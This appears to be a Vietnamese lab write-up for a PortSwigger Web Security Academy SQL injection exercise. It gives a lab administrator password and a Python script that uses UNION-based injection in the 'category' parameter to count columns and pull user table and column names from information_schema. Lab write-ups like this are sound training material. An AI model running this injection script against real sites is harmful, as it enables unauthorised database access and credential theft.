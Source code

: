 ![image](https://hackmd.io/_uploads/BkWPRn3cp.png)

mình đăng nhập với tài khoản admin **administrator:yjcdg5hhww459lc3hwbc** và giải quyết được bài lab này

![image](https://hackmd.io/_uploads/SyL4Q6n56.png)

mình đã viết script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a3500cb03a56ef880e4e9a6003700d6.web-security-academy.net'

session = requests.Session()

# xác định số cột
for x in range(20):
    test_column = "' UNION SELECT " + "NULL," * x + "NULL-- "
    params = {'category' : test_column,}
    response = session.get(url + "/filter",params=params,verify=False,)
    if(response.status_code == 200):
        print("bảng có số cột là: ", (x+1))
        break

payload = "' UNION SELECT table_name, NULL FROM information_schema.tables--"
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)
pattern = r"users_\w{6}\b"
match = re.search(pattern, response.text)
table_user = match.group()
print(table_user)

payload = "' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = '" + table_user + "'--"
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)
pattern = r"username_\w{6}\b"
match = re.search(pattern, response.text)
username_column = match.group()
print(username_column)
pattern = r"password_\w{6}\b"
match = re.search(pattern, response.text)
passwod_column = match.group()
print(passwod_column)

```